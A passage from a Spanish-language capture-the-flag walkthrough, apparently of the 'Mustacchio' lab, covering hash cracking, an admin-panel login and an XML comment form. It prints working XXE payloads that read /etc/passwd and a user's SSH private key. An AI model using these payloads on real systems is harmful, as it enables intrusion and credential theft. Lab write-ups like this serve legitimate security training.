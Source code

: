 por lo que se tiene un hash, por lo que usaremos
<a href="https://crackstation.net/">CrackStation</a> para poner crack dicho hash. Tu podrias usar ``hascat `` o lo que gustes

<center>
<a><img src="https://i.ibb.co/ygFYPVy/mustacchio-04.png" alt="mustacchio-04"></a>
</center>

- Teniendo las credenciales, ahora podemos logearnos, en ``http://<IP target>:8765``
<center>
<a><img src="https://i.ibb.co/c6ymwHV/mustacchio-06.png" alt="mustacchio-06" border="0"></a>
</center> 

- Ingresamos y vemos un panel en la cual revisamos el codigo fuente
<center>
    <a href="https://i.ibb.co/FWL94Zq/mustacchio-06.png"><img src="https://i.ibb.co/FWL94Zq/mustacchio-06.png" alt="mustacchio-06" ></a>
</center>
Vemos que se podemos escribir, pero en formato xml y los parametros que se necesitan son `<comment>`,`<name>`,`<autor>`,`<com>`. Por otra parte vemos un comentario que nos indica un nombre de un usuario el cual es ``barry``

Entonces tendriamos la siguiente estructura de xml
```bash 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Sie7e</name>
  <author>Barry </author>
  <com>Esto es una prueba</com>
</comment>
```
podemos encontrar muchos payloads y hacerlo de filtrar informacion a nuestro gusto [xxe-injection-payloads-list](https://github.com/payloadbox/xxe-injection-payload-list),  yo lo hice de la siguiente forma:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Sie7e</name>
  <author>Barry </author>
  <com>&xxe;</com>
</comment>
```
<center>
<a href="https://ibb.co/z473CtW"><img src="https://i.ibb.co/jrWCqj9/mustacchio-07.jpg" alt="mustacchio-07" border="0"></a>
</center>
- Para ver la ssh del usuario de barry:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Sie7e</name>
  <author>Barry </author>
  <com>&xxe;</com>
</comment>
``` 
<center>
<a href="https://ibb.co/yYLshxY"><img src="https://i.ibb.co/ZYyTHbY/mustacchio-08.jpg" alt="mustacchio-08" border="0"></a>
</center>
